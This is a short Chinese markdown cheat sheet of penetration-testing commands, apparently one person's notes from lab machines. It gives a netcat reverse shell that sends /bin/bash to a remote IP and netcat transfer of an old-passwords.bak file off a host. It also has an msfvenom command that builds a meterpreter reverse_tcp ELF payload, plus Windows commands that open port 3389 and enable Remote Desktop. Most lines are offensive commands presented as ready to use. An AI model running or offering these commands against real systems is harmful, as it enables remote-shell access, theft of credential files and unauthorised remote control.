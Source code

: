 ```yaml
---
# 这是页面的图标
icon: page
# 这是文章的标题
title: 会用到的一些命令收集
# 设置作者
author: lhz
# 设置写作时间
time: 2018-10-01
# 一个页面只能有一个分类
category: 安全工具
# 一个页面可以有多个标签
tag:
  - 小命令收集

comment: false
---
```




通过python获取交互shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

nc

```
监听
nc -lvp 4444
回弹
nc -nv 192.168.141.134 4444 -e /bin/bash

使用nc传文件
nc -nvlp 5555 > old-passwords.bak
nc 192.168.141.134 5555 < /home/jim/backups/old-passwords.bak
```

使用python开启web服务

```
python -m SimpleHTTPServer 8090
```

使用mefvenom生成一个可执行的shell

```
msfvenom  -p linux/x86/meterpreter/reverse_tcp  lhost=192.168.42.128 lport=6666 -f elf -o 6666.elf
```

查看linux系统发行版本、内核版本

```
lsb_release -a
uname -a
```

windows设置打开防火墙端口

```
netsh firewall set portopening TCP 3389 ENABLE   #防火墙开启远程桌面3389端口
```

windows开启远程桌面

```
#设置远程桌面端口
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /t REG_DWORD /v portnumber /d 3389 /f
#开启远程桌面
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
#检查端口状态
netstat -an|find "3389"
#关闭远程桌面
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 0
```
